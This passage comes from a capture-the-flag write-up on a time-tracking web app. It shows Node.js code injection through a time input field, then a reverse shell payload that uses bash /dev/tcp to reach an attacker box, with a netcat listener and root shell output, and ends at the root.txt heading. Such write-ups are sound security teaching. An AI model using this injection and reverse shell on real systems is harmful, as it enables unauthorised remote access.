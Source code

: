 Logging hours appear to be using the endpoint we are sure is vulnerable. We can verify that it is vulnerable by adding the following as our time in minutes: `require("process").pid` and see that our time increases, albeit with a small value, which makes sense as we are running in a container. Now that we have proved code execution, we can run a reverse shell. Run `nc -lnvp 8888` in the terminal on your attackbox and than fill in the following code in the input for time.

```js
require("child_process").spawn("/bin/bash", ["-c", "/bin/bash -i >& /dev/tcp/<attackbox ip>/8888 0>&1"], {detached:true})
```

In our netcat listener we receive the callback 🙌 and we are root!
```
Connection from 10.10.221.177 42306 received!
bash: cannot set terminal process group (17): Inappropriate ioctl for device
bash: no job control in this shell
root@de0610f51845:/usr/src/app#id
id
uid=0(root) gid=0(root) groups=0(root)
```

But there doesn't appear to be anything very interesting on the server.

## user.txt

We go back to our bruteforce terminal and it has found valid credentials for the ssh server. We log in with the found credentials. In the user directory, we can find the user.txt flag and a directory 'timeTracker-src'. This directory contains one item we did not find when we reversed the image; the docker-compose file.

```yaml
version: '3.3'
services:
  db:
    image: mysql:5.7
    restart: always
    environment:
      MYSQL_DATABASE: 'timetracking'
      MYSQL_ROOT_PASSWORD: '<redacted>'
    ports:
      - '3306:3306'     
    volumes:
      - ./db:/docker-entrypoint-initdb.d
  app:
    image: umbrella/timetracking:latest
    restart: always
    ports:
      - '8080:8080'
    volumes:
      - ./logs:/logs
```

## root.txt
